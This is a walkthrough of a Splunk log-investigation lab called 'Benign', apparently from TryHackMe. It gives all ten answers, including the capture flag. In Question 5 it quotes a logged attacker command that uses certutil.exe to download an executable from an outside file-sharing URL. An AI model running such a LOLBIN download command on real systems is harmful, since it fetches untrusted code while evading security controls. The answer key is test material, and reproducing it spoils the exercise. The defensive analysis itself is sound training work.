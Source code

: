 <h1>Benign Challenge Lab (Splunk)</h1>

<h2>Walkthrough</h2>

<b>Question 1: How many logs are ingested from the month of March, 2022?</b>
<br><br>
To find this information, I simply changed the time period of the logs to only show dates from March 2022. In this case, even when you choose "all time", this index shows the same results inlcuded all 13959 events.
<br><br>
<b>Answer:</b> 13,959

<b>Question 2: Imposter Alert: There seems to be an imposter account observed in the logs, what is the name of that user?</b>
<br><br>
For this answer, I used:
<br>
| table UserName <br>
| dedup UserName
<br><br>
This allowed me to see a list of the usernames only one time, which is where I found the imposter "Amel1a" where the imposter changed the "i" in Amelia in to a 1.
<br><br>
<b>Answer:</b> Amel1a

<b>Question 3: Which user from the HR department was observed to be running scheduled tasks?</b>
<br><br>
By adding "schtasks" to the search, then clicking the CommandLine field, there are only 5 commands and the only username shown is chris.fort
<br><br>
<b>Answer:</b> Chris.fort

<b>Question 4: Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host?</b>
<br><br>I used google to search binaries used to download payloads (loblins) and found "certutil.exe". I added that to the search in Splunk and 1 event appeared connected to username Haroon.
<br><br>
<b>Answer:</b> Haroon

<b>Question 5: To bypass the security controls, which system process (lolbin) was used to download a payload from the internet?</b>
<br><br>The answer stemmed from the results found in question #4 which is the certutil.exe utility being used to download the file from the URL "https://controlc.com/e4d11035". Here's the full command line prompt: certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
<br><br>
<b>Answer:</b> certutil.exe

<b>Question 6: What was the date that this binary was executed by the infected host? format (YYYY-MM-DD)</b>
<br><br>This answer was quickly found by looking at the same event I already have pulled up and looking at the Event Time.
<br><br>
<b>Answer:</b> 2022-03-04

<b>Question 7: Which third-party site was accessed to download the malicious payload?</b>
<br><br>This answer was quickly found as well by looking at the command line prompt
<br><br>
<b>Answer:</b> controlc.com

<b>Question 8: What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?</b>
<br><br>This answer was quickly found as well by looking at the command line prompt
<br><br>
<b>Answer:</b> benign.exe

<b>Question 9: The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?</b>
<br><br>I visited the site within the command line to find this answer (controlc.com/e4d11035)
<br><br>
<b>Answer:</b> THM{KJ&*H^B0}

<b>Question 10: What is the URL that the infected host connected to?</b>
<br><br>This answer was also taken from the last question where the entire URL was the final answer
<br><br>
<b>Answer:</b> controlc.com/e4d11035


















